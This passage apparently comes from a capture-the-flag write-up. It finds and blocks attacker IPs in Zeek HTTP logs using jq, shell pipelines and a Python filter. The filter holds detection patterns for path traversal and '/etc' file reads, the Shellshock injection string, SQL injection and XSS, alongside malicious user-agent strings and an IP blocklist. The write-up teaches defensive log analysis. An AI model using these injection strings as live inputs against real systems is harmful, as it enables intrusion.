Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)
Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )
Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)
Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)
Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)
Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)
Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)
Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13
Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)
Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )
Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)
Mozilla/4.0 (compatible MSIE 5.0;Windows_98)
Mozilla/5.0 (Windows NT 10.0;Win64;x64)
Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1
We can search now for the related ips and added to the ips file
while IFS= read -r line; do cat http.log | jq --arg ua $line '.[] | select(.user_agent == $ua ) | .["id.orig_h"] ' | sort | uniq done < pivot_useragents.txt | sort | uniq | tr -d '"' &>> detected_ips_clean.csv
IFS= read -r lineto read file line by line.
Remove all ips duplicates and count the results.
cat detected_ips_clean.csv | sort | uniq > detected_ips_final.csv cat detected_ips_final.csv | wc -l
Unique malicious ip list 111
0.216.249.31,1.185.21.112,10.155.246.29,102.143.16.184,103.235.93.133,104.179.109.113,106.132.195.153,106.93.213.219,111.81.145.191,116.116.98.205,118.196.230.170,118.26.57.38,121.7.186.163,123.127.233.97,129.121.121.48,13.39.153.254,131.186.145.73,132.45.187.177,135.203.243.43,135.32.99.116,140.60.154.239,142.128.135.10,148.146.134.52,150.45.133.97,150.50.77.238,155.129.97.35,158.171.84.209,168.66.108.62,169.242.54.5,173.37.160.150,180.57.20.247,185.19.7.133,186.28.46.179,187.152.203.243,187.178.169.123,19.235.69.221,190.245.228.38,193.228.194.36,194.143.151.224,2.230.60.70,2.240.116.254,200.75.228.240,203.68.29.5,211.229.3.254,217.132.156.225,22.34.153.164,220.132.33.81,223.149.180.133,225.191.220.138,226.102.56.13,226.240.188.154,227.110.45.126,229.133.163.235,229.229.189.246,23.49.177.78,23.79.123.99,230.246.50.221,231.179.108.238,233.74.78.199,238.143.78.114,249.237.77.152,249.34.9.16,249.90.116.138,25.80.197.172,250.22.86.40,250.51.219.47,252.122.243.212,253.182.102.55,253.65.40.39,254.140.181.172,27.88.56.114,28.169.41.122,29.0.183.220,31.116.232.143,31.254.228.4,32.168.17.54,33.132.98.193,34.129.179.28,34.155.174.167,37.216.249.50,42.103.246.250,42.127.244.30,42.191.112.181,44.164.136.41,44.74.106.131,45.239.232.245,48.66.193.176,49.161.8.58,50.154.111.0,52.39.201.107,53.160.218.44,56.5.47.137,6.144.27.227,61.110.82.125,65.153.114.120,66.116.147.181,68.115.251.76,69.221.145.150,72.183.132.206,75.215.214.65,75.73.228.192,79.198.89.109,80.244.147.207,81.14.204.154,83.0.8.119,84.147.231.129,84.185.44.166,9.206.212.33,9.95.128.208,95.166.116.45,97.220.93.190
We have now 111 unique malicious ips in our blacklist.
Blocking the malicious ips¶
Add , after each ip to convert to csv format
cat detected_ips_clean.csv | tr '\n' ','
Copy the result to the Firewall:

Route Calculation Success!
RID: 0807198508261964
Congratulations! You have completed the Filter Out Poisoned Sources of Weather Data challenge!
Alternative Method
We could use python to filter the ips from the logs:
import json # Searching for the attacks #LFI lfi_detects = ["..","/etc","||","pass"] #XSS xss_detects = ["<"] #Shellshock ss_detects = ["() { :; };"] #SQLi sqli_detects = ["/*","**","UNION","'"] #list of status_msg status_msgs = ["Bad Request"] # list of malicious user agents to pivot from the file we generated with open('pivot_useragents.txt') as f: ua_blacklist = [line.rstrip('\n') for line in f] # list of malicious ips blacklist = set() # load logs http_logs = json.load(open("http.log")) # iterate over entries and filter based on identified markers of IoC for log in http_logs: for detect in lfi_detects: if detect in log['uri'] and log['id.orig_h'] not in blacklist: blacklist.add(log['id.orig_h']) for detect in xss_detects: if detect in log['uri'] or detect in log['host'] and log['id.orig_h'] not in blacklist: blacklist.add(log['id.orig_h']) for detect in ss_detects: if detect in log['user_agent'] and log['id.orig_h'] not in blacklist: blacklist.add(log['id.orig_h']) for detect in sqli_detects: if detect in log['uri'] or detect in log['host'] or detect in log['username'] or detect in log['user_agent'] and log['id.orig_h'] not in blacklist: blacklist.add(log['id.orig_h']) for message in status_msgs: if message in log['status_msg'] and log['id.orig_h'] not in blacklist : blacklist.add(log['id.orig_h']) for ua in ua_blacklist: if ua in log['user_agent'] and log['id.orig_h'] not in blacklist: blacklist.add(log['id.orig_h']) # print how many ips we got print(len(blacklist)) # print ips blacklist and add `,` after each ip to convert to csv format print(",".join(blacklist))
🎓 What you've learned¶
- Zeek logs json format and content
- Search in Zeek logs using
jqtool - Pivoting based on results like UserAgents
- Knowing different malicious UserAgents
- Using
sort,uniq,tr,wccommands
-
https://docs.zeek.org/en/stable/scripts/base/protocols/http/main.zeek.html#type-HTTP::Info ↩
-
https://www.crowdstrike.com/blog/mitigating-bash-shellshock/
https://metalkey.github.io/shellshock-explained--exploitation-tutorial.html ↩↩
-
https://www-users.cs.umn.edu/~zhan3248/materials/technical_report.pdf
https://user-agents.net/lookup
http://useragentstring.com/index.php
https://www.giac.org/paper/gcia/8443/60-seconds-wire-malicious-traffic/123928
https://rules.emergingthreats.net/open/snort-2.9.0/rules/emerging-user_agents.rules ↩
-
https://threatpoint.checkpoint.com/ThreatPortal/threat?threatId=11021&threatType=malwarefamily ↩
-
https://attack.mitre.org/software/S0070/
https://www.secureworks.com/research/threat-group-3390-targets-organizations-for-cyberespionage ↩
-
https://github.com/Neo23x0/sigma/blob/master/rules/proxy/proxy_ua_malware.yml
https://github.com/seanlinmt/suricata/blob/master/files/rules/emerging-user_agents.rules
https://networkraptor.blogspot.com/p/user-agent-strings.html ↩↩
-
https://doc.emergingthreats.net/2002079
https://www.webmasterworld.com/search_engine_spiders/4809958.htm
-
https://docs.google.com/spreadsheets/d/1mY6BGYZgwPH3UiVAdxU4Hraa9n1gFLXSMcR_5mhs0GE/edit#gid=1694348953 ↩
-
https://community.rsa.com/thread/185439
https://github.com/Neo23x0/sigma/blob/master/rules/proxy/proxy_ua_malware.yml ↩
-
https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/fareit
https://github.com/Neo23x0/sigma/blob/master/rules/proxy/proxy_ua_malware.yml ↩↩
-
https://app.any.run/tasks/7d7fa4a0-6970-4428-828b-29572abf9ceb/ ↩